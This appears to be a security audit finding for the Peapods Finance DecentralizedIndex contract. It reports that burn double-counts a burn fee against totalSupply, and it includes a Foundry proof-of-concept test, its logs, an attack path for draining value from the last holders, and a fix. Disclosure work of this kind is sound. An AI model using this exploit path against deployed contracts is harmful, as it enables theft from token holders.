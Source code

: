 Magic Fuchsia Guppy

High

# `DecentralizedIndex.sol` with transfer fee and burn fee will have incorrect totalSupply upon `burn`

### Summary

The incorrect accounting in `DecentralizedIndex.sol::burn` can lead that the `totalSupply()` of the DecentralizedIndex to be less than the sum of balances. This will result in incorrect asset to share ratio as well as preventing the last shares to be debonded.


### Root Cause

The `DecentralizedIndex::burn` will decrease the `_totalSupply` by the `_amount` to be burned: 
https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/contracts/contracts/DecentralizedIndex.sol#L321-L324

Note that the `burn` function does not have the `noSwapOrFee` modifier.

The internal `_burn` which is from the `ERC20Upgradeable` will call `_update(account, address(0), value);`. This `_update` function is the overriden function in `DecentralizedIndex`.
Assuming the `burn` is not called by the `V2_POOL`, and with the condition that `hasTransferTax` is true, it might have non-zero `_fee`. Which will be given to `_processBurnFee`.
https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/contracts/contracts/DecentralizedIndex.sol#L174-L180

If the `_burnAmt` is non-zero, the `_totalSupply` will be decreased by `_burnAmt`.
https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/contracts/contracts/DecentralizedIndex.sol#L221-L222

However, this `_burnAmt` is already burned in the beginning of `burn` function, since the `_burnAmt` is actually inclued in the overall `_amount` to be burned.
As the result this `_burnAmt` is going to be reduced twice from `_totalSupply`, but the balance is reduced only once because the `_fee` which includes `_burnAmt` is reduced from the `_amount`.


```solidity
// DecentralizedIndex::burn
// The _amount includes `_burnAmt`
    function burn(uint256 _amount) external lock {
        _totalSupply -= _amount;
        _burn(_msgSender(), _amount);
    }

// _burn will call DecentralizedIndex::_update
        _processBurnFee(_fee);
        super._update(_from, _to, _amount - _fee);

// DecentralizedIndex::_processBurnFee - this will again go to `_update
        _totalSupply -= _burnAmt;
        _burn(address(this), _burnAmt);
```


### Internal Pre-conditions

- The `IDecentralizedIndex::Config`'s `hasTransferTax` is true.
- The `IDecentralizedIndex::Fees`'s `burn` is non-zero.


### External Pre-conditions

- anybody calls `burn` with enough `_amount`


### Attack Path

As soon as enough `amount` is burned the `totalSupply` will be less than the sum of balances.

If the attacker burn some portion while there are no other holders, and they will `debond` before other holders, effectively they are stealing from the last holders.

### Impact

Since the totalSupply is less than the sum of balance, each share will be over valued. As the result the last holders of the pTKN will fail to get their fair asset back.

Also, this can open up other exploitation of price manipulation, since by burning to the totalSupply to be zero, the asset to share ratio will default. They can then get shares via `bond` for a cheaper price.



### PoC

The below PoC is based on `test_burn` of `test/WeightedIndex.t.sol`.
This is to demonstrate the `totalSupply` of pod can be less than the sum of balances.

As the setup, a new pod with transferTax and burn fee is deployed.
The test contract gets the pTKN via `bond`, they are innocent bystander.

The alice would `burn` enough amount to trigger the mis-accounting.

The holders of pod at this point are:
- address(this)
- alice
- pod itself (for the fee)

At the end the totalSupply is less than the sum of the holders.

The resulting logs of the PoC:
```sh
[PASS] test_burn_POC() (gas: 4469408)
Logs:
  totalSupply: 1993000000000000000
  sum balances: 1993000000000000000
  alice burns: 990000000000000000
  totalSupply: 1002930695148660407
  sum balances: 1003029702079145541
```

```solidity
    function test_burn_POC() public {
        /// SETUP
        IDecentralizedIndex.Config memory _c;
        // @audit: hasTransferTax true
        _c.hasTransferTax = true;
        IDecentralizedIndex.Fees memory _f;
        _f.bond = fee;
        _f.debond = fee;
        // @audit: burn fee non-zero
        _f.burn = 7000;

        address[] memory _t = new address[](1);
        _t[0] = address(peas);
        uint256[] memory _w = new uint256[](1);
        _w[0] = 100;
        address _pod = _createPod(
            "Test",
            "pTEST",
            _c,
            _f,
            _t,
            _w,
            address(0),
            false,
            abi.encode(
                dai,
                address(peas),
                0x6B175474E89094C44Da98b954EedeAC495271d0F,
                0x7d544DD34ABbE24C8832db27820Ff53C151e949b,
                rewardsWhitelist,
                0x024ff47D552cB222b265D68C7aeB26E586D5229D,
                dexAdapter
            )
        );
        pod = WeightedIndex(payable(_pod));

        vm.startPrank(alice);
        peas.approve(address(pod), type(uint256).max);
        vm.stopPrank();

        vm.startPrank(bob);
        peas.approve(address(pod), type(uint256).max);
        vm.stopPrank();

        vm.startPrank(carol);
        peas.approve(address(pod), type(uint256).max);
        vm.stopPrank();
        /// end SETUP

        peas.approve(address(pod), type(uint256).max);
        pod.bond(address(peas), bondAmt, 0);

        vm.startPrank(alice);
        pod.bond(address(peas), bondAmt, 0);
        vm.stopPrank();

        uint podTotalSupply = pod.totalSupply();
        uint podBalThis = pod.balanceOf(address(this));
        uint podBal = pod.balanceOf(alice);
        uint podBalPod = pod.balanceOf(address(pod));
        emit log_named_uint("totalSupply", podTotalSupply);
        emit log_named_uint("sum balances", podBalThis + podBal + podBalPod);
        require(podTotalSupply >= podBalThis + podBal + podBalPod);

        emit log_named_uint("alice burns", podBal);
        vm.startPrank(alice);
        pod.burn(podBal);
        vm.stopPrank();

        podTotalSupply = pod.totalSupply();
        podBalThis = pod.balanceOf(address(this));
        podBal = pod.balanceOf(alice);
        podBalPod = pod.balanceOf(address(pod));
        emit log_named_uint("totalSupply", podTotalSupply);
        emit log_named_uint("sum balances", podBalThis + podBal + podBalPod);
        // @audit: total supply is less than the sum of balances
        //    the last person cannot debond due to revert from underflow
        require(podTotalSupply < podBalThis + podBal + podBalPod);
    }
```


### Mitigation

consider putting the modifier `noSwapOrFee` to the `burn` function.
